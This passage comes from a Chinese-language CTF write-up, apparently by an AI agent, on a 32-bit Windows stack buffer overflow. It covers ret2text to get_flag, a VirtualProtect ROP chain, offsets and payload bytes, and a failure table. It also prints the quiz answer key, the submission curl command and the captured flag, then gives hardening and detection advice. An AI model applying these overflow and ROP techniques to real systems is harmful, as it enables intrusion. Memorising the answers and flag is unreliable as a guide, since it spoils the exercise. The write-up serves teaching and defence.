- 路径 B 那些「把链最后 4 字节改成 `0x41e320`」的尝试（`logs/46-v2.txt` 等），`0x41e320` 实际写进了 152 槽（第 4 个参数位置），而真正生效的返回地址仍是 136 槽里的 `0x41e300`——也就是说控制流被送到了 `0x41e300` 而不是 stage1 所在的 `0x41e320`。这**至少解释了「跳进数据页却没有任何 shellcode 输出」的表象**；叠加后期靶机退化，本文仍按原始记录的最终口径把该步记为**未完成/未确认**，不写成成功。

### 9. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | stage1 只发 10 字节（`shortstage1`） | banner 后长时间无回显、连接挂住 | 程序阻塞在 `fread(0x41e320,1,512,stdin)`，不满 512 字节不返回 | **先精确发满 512 字节** stage1，再发 stage2 |
| 2 | 偏移 128（`off128`） | `Input: ` 后立即断开、无 token | 偏移少算 4，`get_flag` 写到 saved EBP，`ret` 弹 `0x41414141` | 用 `sub esp,0x80` + `[ebp+4]` 推出 **132** |
| 3 | 偏移 136（`badoff136`） | 同上 | 偏移多算 4，返回地址被 padding 覆盖 | 同上（128/136 两侧夹逼出 132） |
| 4 | 目标 `0xdeadbeef`（`badtarget`） | 同上 | 目标地址未映射 ⇒ 访问违例 | 目标改到 `.text` 内的 `0x401000` |
| 5 | 兑换首次/二次 403 | `invalid token: token from the future` | 靶机时钟领先 flag 服务 2～3 秒 | 等 2 秒后用**同一枚** token 重试（10 分钟内有效） |
| 6 | 路径 B：参数在前、返回地址在后（T3） | 空回显 | 包装函数（cdecl）从 136 槽取返回地址，该槽被 `0x41e300` 占据 | 改成「**返回地址（下一跳）在前、四参数随后**」 |
| 7 | 路径 B：跳进数据页执行 shellcode | 空回显 / 超时无输出（`logs/44-pathB-SUCCESS.txt` 文件名误写成 SUCCESS） | 未定位（8.4 给出槽位错位的解释，但无法与靶机退化区分） | **记为未完成/未确认**，不写成成功 |
| 8 | 平台附件下载 | `HTTP 500 {"code":10092,"msg":"query section file failed"}` | 平台接口/路径问题 | 用同名同 MD5（`f0112c91…`）附件继续，如实记录 |
| 9 | 教学问答第 5 问 | 只回了 76 字符（被截断） | SSE 流被 `curl -m 150` 截断 | 换会话重问，取到 1143 字符完整版（transcript index 7） |
| 10 | 答案判分自查 | `answerHistory` 最初 `studentScoreRate=0` | 尚未提交（提交前状态） | 正常提交后复核 `isCorrect` 全 true |

### 10. 提交答案与平台判分（5/5 全对）

提交前先确认这是**首次也是唯一一次**提交：`answerHistory?sectionID=6669` 返回 `answerQuestion: []`，题面里 5 题的 `studentAnswer` 全为空串、`answerTime=0` ⇒ `isResubmit=false`（`logs/00-answerHistory-before.json`）。

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6669' \
  -F 'answers={"questionID": 8815, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8817, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8819, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8821, "answer": "{\"answer\": [\"A\",\"B\",\"C\",\"D\"], \"num\": 4}"}' \
  -F 'answers={"questionID": 8829, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{dv3n834pcSt57PzJ9TXETPhUe5ZWvy1m}\"]}"}' \
  -F 'contestMode=0'
# 返回 code=0, msg=success；5 条记录 answerTimes 均为 1（确为首次、唯一一次提交）
```

填空题的 `answer` 被平台**规范化**为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位自动补 `true`，flag 固定放第 3 格），与既往题目一致。判分以 `GET /api/student/get/answerHistory?sectionID=6669&contestMode=0` 为准：

| order | questionID | 题型 | 提交内容 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 8815 | 单选 | `{"answer":["D"],"num":1}` | true |
| 2 | 8817 | 单选 | `{"answer":["C"],"num":1}` | true |
| 3 | 8819 | 单选 | `{"answer":["D"],"num":1}` | true |
| 4 | 8821 | 多选 | `{"answer":["A","B","C","D"],"num":4}` | true |
| 5 | 8829 | Flag 填空 | `{"num":3,"answer":["","true","vmc{...}"]}`（中间位由平台规范化） | true |

**5/5 全部 `isCorrect=true`**（`logs/61-answerHistory-after.json`）。平台作答页同样 5 题都显示「作答正确」，4 道选择题的所选选项高亮，第 5 题 flag 输入框内为最终 flag。（顶层 `isCorrect` / `scoreRate` 在平台恒为 false/0，不作为判分依据。按惯例本文不展开选择题解析。）



### 11. 实例与端口映射核对

「我的虚拟机」页面里本题实例一行：`C026-G4-F`，容器 `s-148775`，镜像 `t-11637/c026-g4-f:2026`，IP `172.17.0.13`，状态 **running**，过期时间 **2026-10-13 21:40:33**，网络列显示「端口映射 +2」；同页还列着 `DVWA实验`、上一题 `C026-G3-F`（`s-148773`）与下一题 `C031-G1-F`（`s-148777`），说明本次利用确实打在本章环境上、各题容器互相独立。截图里端口映射浮层**未展开**，实际映射以接口实测为准：`portInfos` = `22 → 172.17.0.13:13150`、`80 → 172.17.0.13:13151`（`logs/32-instances-1163.json`），与步骤 2/7 使用的地址一致。


### 12. 教学问答：原理、机制、加固、检测与延伸（6 组 + 1 条补问）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题，**全部新开会话**、两次提问间隔 ≥ 13 秒；第 6 问遇到 2 次空响应，等 25 秒后第 3 次成功。问答原文另存 `.local/process/5-4-qa-transcript.json`：

| # | conversation_id | 问题主题 | 回答长度 | 备注 |
| --- | --- | --- | --- | --- |
| 1 | 5483 | DEP 在硬件/软件层面如何实现、靠什么阻止栈或数据段里的 shellcode | 872 字 | 内容完整 |
| 2 | 5484 | `VirtualProtect` 四个参数各自作用；为什么常用 `0x40` 而非 `0x20` | 967 字 | 内容完整（口径见下） |
| 3 | 5485 | 为什么必须在包装函数返回地址之后紧接着摆四个参数；包装函数不清理参数的影响 | 750 字 | 内容完整（表述偏泛，见下） |
| 4 | 5486 | `/GS`、`/DYNAMICBASE`、`/SAFESEH`、CFG 各自拦住攻击链哪一步 | 761 字 | 内容完整 |
| 5 | 5490 | 应急响应中检测 ROP+`VirtualProtect` 注入的落地手段与异常特征 | 1143 字 | **首次回答被流式截断（记录为 76 字符），补问后取到完整版** |
| 6 | 5489 | RWX 页为何高风险、有哪些合法用途 | 622 字 | 第 3 次重试才拿到回答 |
| 7 | 5490 | 第 5 问的重问（补问记录） | 1143 字 | **与 index 5 逐字一致**（同一 conversation 5490） |

回答要点与口径说明（**教学模型的回答只作参考，不当权威结论**）：

- **第 1 问**：方向正确——硬件靠 CPU 的执行禁用/NX 位（Pentium Pro 起），软件由 OS 把页标为不可执行并在违规时由异常处理终止进程；但回答里把 Stack Canaries 说成「栈可以执行随机化」、把栈说成「通常被标记为只读」，属**表述不准**，读者需回到二进制/系统文档校正；
- **第 2 问**：给出了正确的函数原型与四个参数含义，也说明 `0x40`=`RWX`、`0x20`=`RX`；但把 `0x40` 的优点主要归为「写入后可直接就执行」，未展开「RWX 便于自解密/自修改 shellcode」这一常见理由。它与本机实测不冲突（`flNewProtect` 改 `0x20` 时链同样跑通，`logs/48-u2-prot20.txt`），只是表述不够完整；
- **第 3 问**：抓住了「参数必须紧随被劫持的返回地址、通过栈传递」这一要点，但对「包装函数自己不清理参数 ⇒ 由链自行平衡栈」只给了「调用失败 / 利用失败」等泛泛后果，**没有落到 ESP/参数槽层面**；
- **第 4 问**：`/GS`、`/DYNAMICBASE`、`/SAFESEH`、CFG 四项各有覆盖，方向正确；对 `/GS` 的机制描述偏笼统（未提 canary 与 EBP 异或、`__security_check_cookie`），对 `/DYNAMICBASE`「启用即基址随机化」的表述正确；
- **第 5 问**：分点给出内存页权限审计（Process Explorer/ProcMon）、API 监控、ETW、Sysmon、行为分析、签名检测，并把「出现不该有执行权限的页」「运行时改页权限」列为异常特征，与本题路径 B 的行为画像吻合；
- **第 6 问**：列举的合法 RWX 场景是「动态库加载 / 自修改代码 / 部分安全功能 / 内核扩展」，方向正确但较笼统（未提 JIT）；**原始记录里写作「举了 JIT/动态库加载」，转录原文中并未出现 JIT 字样**，本文按转录原文列举；
- **关于第 5 问的截断**：解题记录称首次回答仅 76 字符、补问取到 1143 字符完整版，但 `5-4-qa-transcript.json` 中 index 5 与 index 7 内容**逐字一致**（同为 conversation 5490、1143 字符），**截断时的原文并未落盘**；本文如实标注这一点，不把补问当成两次独立回答。



### 13. 截图真实性与脱敏说明

`5-4/screenshots/` 共 **10 张 PNG**，按取证方式分两类，**图注与正文均如实区分**（其中 **7 张渲染稿、3 张真实页面截图**）：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | 靶机 banner 与两段式交互验证（T0/T1/T2 与短 stage1 卡住） | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02` | 四条失败对照（short stage1 / 偏移 128 / 偏移 136 / 坏目标 `0xdeadbeef`） | 同上 |
| `03` | PE 标志 `0x8100`、导出表、包装函数与 `vuln` 反汇编、调用点与偏移 132 推导 | 同上（真实 `objdump` 回显的渲染稿） |
| `04` | 路径 A payload 与真实 token 回显 | 同上 |
| `05` | 兑换成功 `HTTP/1.1 200 OK` + flag，并保留 attempt 1/2 的 403 | 同上（真实 HTTP 回显的渲染稿） |
| `05b` | `token already used` / `invalid token: invalid token format` / `token expired` | 同上 |
| `05c` | 路径 B 专题：包装函数反汇编、链布局与踩坑、U4/U2 成功证据、B0 DEP 对照、未完成部分说明 | 同上 |
| `06` | VMC 作答页：5 题全部「作答正确」、选项高亮、flag 已填 | **真实页面截图**（无头 Chrome 登录态，viewport 1280×2400、dSF 2） |
| `07` | 教学问答平台页面与第 5 问完整回答 | **真实页面截图**（同上） |
| `08` | VMC「我的虚拟机」：`C026-G4-F`（`s-148775`）running、IP、过期时间 | **真实页面截图**（同上） |

脱敏与合规（仓库为公开仓库）：

- **pwn 靶机 `172.17.43.31:9999` 不是 HTTP 服务**，本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`），因此所有终端/HTTP 类画面（`01`、`02`、`03`、`04`、`05`、`05b`、`05c`，共 7 张）都是「真实命令回显 + 等宽排版」的**渲染稿**，**图内顶部、图注、正文三处都做了明确标注**，未冒充终端实拍；渲染源 HTML 共 7 个（另有配套 `spec*.json`）保留在 `.local/process/5-4-scripts/render/`（不入库），`5-4/screenshots/` 下只放最终 10 张 PNG；
- **`06` / `08` 的顶栏脱敏**：两张为登录态下的 VMC 真实页面，顶栏最右侧原本渲染了平台账号显示名。处理方式：按列扫描 ink 簇定位账号文字后，`06` 只涂白 `(2350,45)-(2560,125)`、`08` 只涂白 `(2280,45)-(2560,125)`，均填充实测顶栏背景色 `rgb(114,177,239)` 并写「账号已脱敏」（文字色 `rgb(255,255,255)`）；
- **`07` 的脱敏**：账号胶囊实测文字簇约 `x 1820-2159, y 50-103`（device px），只涂白 `(1812,42)-(2170,112)` 一个矩形，填充该页 header 背景色 `rgb(255,252,247)`、文字色 `rgb(140,120,90)` 写「账号已脱敏」，右侧「帮助」「退出」按钮完整保留；
- 脱敏脚本：`.local/process/5-4-scripts/mask_54.py`（`--check` 干跑打印源图尺寸与处理矩形、`--apply` 写入，并把处理区域裁剪到 `/tmp/maskcheck_*` 供目视复核；**本脚本不做 ink 计数**，可靠性由「`--apply` 后逐图目视 + writeup 侧逐图查看」保证，可追溯、可回退——重新用 `vmc_shots.mjs` / `qa_shots.mjs` 从平台截图即可）；
- 渲染稿的数据源日志在渲染前已剔除 `currentUser` 等账号字段（渲染 spec 里手工删去），图内不含昵称、学号、姓名、`lastIP` 等个人信息；
- 本文不记录平台口令、cookie、昵称、学号、`lastIP`、平台域名/IP 等任何个人信息或平台地址。

### 14. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.43.31:9999` | **无文件落地** | 纯网络 payload：stage1 只写进服务进程的 `.data` 缓冲区，未上传文件、未写磁盘、未留后门；每条实验独立连接、全部断开 |
| 一次性 token | 路径 A 正式利用取得 **1 枚**（`1791888297.rZo-…`）并兑换成功；路径 B 与失败对照另产生多枚（`logs/36-pathA-recheck.txt`、`logs/38-t0.txt`–`logs/43-u4-argorder-fixed.txt` 的 T0/T1/T2 与 U3/U4 系列、`logs/48-u2-prot20.txt`、`logs/51-u4-after-v2.txt`、`logs/57-u4-control.txt` 等），**均未兑换** | 未兑换的 token 10 分钟后自然失效，符合一次性凭证设计 |
| 本机 | `5-4/screenshots/`（10 张 PNG，无其它文件）、`.local/process/5-4-scripts/`（`exploit.py`、`static_facts.py`、`pathB*.py`、`redeem.py`、`ask_qa.py`、`render_terminal.py`、`mask_54.py`、`files/challenge.exe`、`render/` 渲染源、`logs/` 原始日志）、`.local/process/5-4-ctf-process.md`、`.local/process/5-4-qa-transcript.json`、`.local/process/5-4-answers-rationale.md` | `.local/` 与 `/tmp/` 均不入库 |
| 实例 | envID `1163` 交付时仍在 `Running`（`C026-G4-F`，过期时间 2026-10-13 21:40:33），未销毁 | 留给复现/复核，如需善后可在平台停止该实例 |

## Flag

```text
vmc{dv3n834pcSt57PzJ9TXETPhUe5ZWvy1m}
```

与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 8829）判定为正确的提交值逐字一致；兑换响应 `Content-Length: 38` = 37 字符 flag + 结尾换行。取得方式为**路径 A（ret2text → `get_flag`）**：stage1 精确发满 512 字节 `\x90`，stage2 = `b"A"*132 + p32(0x00401000) + b"\n"`。

## 总结与心得

### 漏洞原理

1. **根因仍是「无长度检查的读取 + 可被覆盖的返回地址」**：`vuln` 用 `gets` 语义往 `ebp-0x80` 的 128 字节缓冲区写数据，不校验长度；该函数没有 `/GS` 栈 Cookie 检查，于是「缓冲区首址 → 返回地址」的 `0x80 + 4 = 132` 字节一旦写满，控制流即可改写。这是 CWE-121（栈缓冲区溢出）。
2. **本题多了一层「两段式输入」设计**：`vuln` 先用 `fread(0x41e320,1,512,stdin)` 把 512 字节读进 `.data` 的全局缓冲区，再从栈缓冲区做无界读入。对攻击者来说这是一把双刃剑：它制造了「必须先精确发满 512 字节」的交互门槛（不了解就会误以为靶机没响应），同时**顺手提供了一个内容可控、地址固定、可写的数据页**——恰好是「改权限后执行 shellcode」这条路所需要的落点。
3. **DEP 只拦「执行数据页」，不拦「跳到已有代码」**：`NX_COMPAT` 让栈与 `.data` 不可执行，`ret2text` 到 `.text` 里的 `get_flag` 不受影响（路径 A 因此一次成功）；反过来，把返回地址直接指向 `.data`（B0 对照）立刻被判访问违例——这正是路径 B 必须先把页改成可执行的原因。
4. **ASLR 关闭让攻击退化成静态地址覆盖**：没有 `DYNAMICBASE`，加载基址恒为 `0x400000`，因此 `get_flag = 0x401000`、`vuln = 0x401040`、包装函数 `= 0x401020`、数据缓冲区 `= 0x41e320` 全部能在逆向阶段写死；若这一位开着，攻击至少要先做一次信息泄露。
5. **把 `VirtualProtect` 包装成导出函数，等于送给攻击者一个「改页权限」的现成 gadget**：`0x401020` 从栈上取 4 个参数并 `call [0x41600c]`，尾部 `pop ebp; ret` 且**不清理参数**（cdecl）。于是 ROP 链的形状被调用约定唯一决定：`vuln` 的 `ret` 弹 132 槽进入包装函数；包装函数入口 `push ebp` 后，**[ebp+4]（=136 槽）是它自己的返回地址，[ebp+8]～[ebp+0x14]（=140～152 槽）才是四个参数**。「先参数、后返回地址」会把 `lpflOldProtect` 的值当成返回地址弹走（T3 实测空回显），这就是本题路径 B 最容易踩的坑。
6. **「拿到凭证」与「拿到 flag」是两段权限，且带时间语义**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在校验**格式 → 有效期/时间 → 使用状态/签名**后才给出。`token from the future` 这一现象还暴露了靶机与兑换服务之间的**时钟偏差**（靶机快 2～3 秒），按「有输出/有响应才算成功」的标准，这类失败也必须如实记录并重试。

### 做题方法

- **先把「保护开关 + 偏移 + 目标签名」钉死再发包**：`objdump -p` 看 `DllCharacteristics`（`0x8100` ⇒ DEP 开、ASLR 关）、导出表拿 `get_flag`/`vuln` 地址；`objdump -d` 看 `sub esp,0x80` 与 `leal -0x80(%ebp)` 确认缓冲区 128 字节、看调用点 `0x4010fb` 的下一条指令确认返回地址 `0x401100`，再独立算出偏移 `0x80 + 4 = 132`。
- **两段式交互必须按字节验证，不能靠「等回显」**：`Service ready.` 是连接即得的 banner，`Input: ` 只在 `fread` 读满 512 字节后才出现（`logs/10-fail-short-stage1.txt`、截图 01 的 T0/T1/T2）。遇到「发了一小段就没反应」时，第一反应应该是「输入还没喂满」，而不是「靶机挂了」。
- **失败对照要设计成「各证一件事」**：只发 10 字节证明 stage1 门槛、偏移 128/136 从两侧夹出 132、`0xdeadbeef` 证明 EIP 可控；路径 B 里 B0（不改权限直接跳数据页）与 T3（返回地址错位）分别证明「必须先改权限」和「返回地址槽在 136」。四条短日志拼起来，比一条长成功日志更能说明问题。
- **先把槽位定死，再谈语义**：路径 B 一开始就上「完整链」，结果 T3 空回显时无从判断是参数错还是返回地址错。改用「只放两个 dword」的 T0/T1/T2 逐槽验证（`132`/`136` 各放什么、有无 token），槽位归属立刻确定——这正是 8.4 能定位到「跳转目标其实是 `0x41e300` 而不是 `0x41e320`」的原因。
- **没有 pwntools 也能完成**：Python 标准库 `socket` + `struct.pack("<I", ...)` 足以构造 payload 并按超时轮询「静默即停」的回显；本机缺工具不该成为跳过验证的理由。
- **「有输出才算成功」**：路径 B 最后一步多次空回显，即使某个日志文件名写着 `SUCCESS`，也不能当作成功；本文把它记为未完成/未确认，并单列了靶机退化（`logs/31-target-availability.txt`、`logs/33-target-probe-loop.txt`、`logs/59-v1-retest.txt`）这一可能的环境因素。
- **兑换环节要把时间因素算进去**：token 是靶机签发的、兑换服务校验时间，两者有 2～3 秒偏差时首次兑换必然 403。正确做法是**对同一枚 token 短暂重试**，而不是重新取 token 或怀疑 payload。
- **平台提交的两个格式约束**：`answers` 字段必须外层包 `{"questionID":...,"answer":"<内层 JSON>"}`，`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3）；判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。
- **对模型回答保持复核**：本题问答里第 1 问把 Stack Canaries 说成「栈随机化」、第 2 问未展开 RWX 的自修改用途、第 3 问没有落到 ESP/参数槽层面（步骤 12 口径说明），说明教学问答适合梳理思路，**结论必须回到二进制与实测上验证**。

### 修复建议

- **代码级：不要再用无界读取**。把 `gets` 语义的读入换成带长度上限的实现（`fgets(buf, sizeof buf, stdin)` 或「读取 + 截断 + 校验」），并逐一检查所有把外部数据写进定长缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。本题的触发点就是「网络数据 → 128 字节栈缓冲区」这条直通路径。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——`vuln` 没有，是返回地址能被直接覆盖的前提；
  - `/DYNAMICBASE`（ASLR）——本题只有 DEP（`0x8100`），补上 ASLR 后 `0x401000`/`0x401020`/`0x41e320` 这些静态地址即失效，攻击至少要先做信息泄露；
  - `/SAFESEH`、`/guard:cf`（CFG）——约束异常处理链与间接跳转目标；三者相互独立，可按缺口分别开启。
- **不要把「改内存页权限」的能力包装成可被任意拼装的导出函数**：本题的 `0x401020` 等于给攻击者递上一个「`VirtualProtect(lpAddress,dwSize,flNewProtect,lpflOldProtect)` 远程调用器」，只要按 cdecl 摆好参数即可改页属性。敏感能力应下沉到独立信任域（独立进程/服务 + 权限校验），而不是以无校验的薄包装形式留在同一进程的导出表里，更不应把「可写数据缓冲区」和「能改页权限的函数」放进同一个进程。
- **运行期与架构层**：开启系统级 DEP/ASLR；服务以最小权限账户、低完整性级别运行；对所有接收网络数据的控制台程序限制可执行页范围；对只接受内网数据的端口做来源限制与流量审计。
- **把「拿不到 flag」当作最后一道边界，并处理时钟问题**：本题兑换服务做了 token 格式校验、10 分钟有效期与一次性使用检查，是可借鉴的设计——高价值资产与暴露面分层，凭据短期化、单次化，并在服务端记录使用情况以便事后审计。同时，**签发端与校验端必须做 NTP 时间同步并允许合理时钟偏差窗口**（否则会出现本文的 `token from the future`，把正常用户挡在门外，也会污染应急响应时的日志判断）。
- **检测与应急排查要点**（对应教学问答第 5 组）：进程内存中出现「本不该有执行权限的页」（尤其 `.data`/堆被改成 `RWX`）、运行期出现 `VirtualProtect`/`VirtualAlloc` 等改页权限的调用、Sysmon/ETW 中的内存页权限变更事件、服务进程以 `0xC0000005`（访问违例）异常退出且崩溃转储里返回地址指向进程内未被正常调用的函数（如本题的 `0x401020` 包装函数与 `get_flag`）、一次性凭证在极短时间内被兑换等，都是此类 ROP + `VirtualProtect` 注入的典型痕迹。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯、核对 EDR 遥测中的线程起始地址与调用栈，并回到「有界读取 + `/GS` + `/DYNAMICBASE` + 最小权限 + 时间同步」这条主线修复。

原始过程记录：`.local/process/5-4-ctf-process.md`；教学问答原文：`.local/process/5-4-qa-transcript.json`；选择题独立判定理由：`.local/process/5-4-answers-rationale.md`；复现脚本与全部证据日志：`.local/process/5-4-scripts/`（`exploit.py`、`static_facts.py`、`pathB*.py`、`redeem.py`、`mask_54.py`、`render/`、`logs/`）。
